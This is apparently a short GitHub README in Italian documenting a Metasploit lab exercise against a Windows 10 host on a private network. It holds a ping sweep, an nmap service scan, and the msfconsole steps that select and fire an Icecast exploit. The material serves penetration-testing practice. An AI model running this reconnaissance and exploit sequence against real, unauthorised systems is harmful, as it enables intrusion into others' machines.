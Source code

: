 ## **MetasploitW10**
## **netscan**
```bash
fping -a -g 192.168.1.0/24
```
## **nmap**
```bash
nmap -sV -T5 192.168.1.149
```
➡️​[Risultato](https://github.com/OctavianIT/MetasploitW10/blob/main/MetasploitW10/foto2.png)

## **avvio**
```bash
msfconsole
```
## **exploit**
```bash
search type:exploit icecast
```
## **selezione**
```bash
use 0
```
## **config**
```bash
set RHOSTS 192.168.1.149
```
## **avvio**
```bash
exploit
```
➡️​[Risultato](https://github.com/OctavianIT/MetasploitW10/blob/main/MetasploitW10/foto7.png)
